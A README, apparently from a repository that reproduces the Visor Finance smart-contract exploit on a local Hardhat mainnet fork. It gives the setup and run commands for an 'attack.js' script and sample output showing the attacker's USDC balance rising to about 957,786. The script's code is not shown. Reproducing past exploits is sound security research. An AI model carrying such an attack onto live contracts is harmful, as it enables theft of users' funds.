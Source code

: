 # Visor exploit

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.js
```
You will see similar output later
```
Attacker USDC balance: 0.0
Exploiting... transcation:  0x00ce9e37ea3fb76f861cf0bc114c2d5314acd880a40f0f72d1b1292b72e4db29
Exploit complete.
Attacker USDC balance: 957786.585605
```
This means the attack is complete
> The block height of the fork is 14326931


## Link

* https://twitter.com/peckshield/status/1500105933128495108

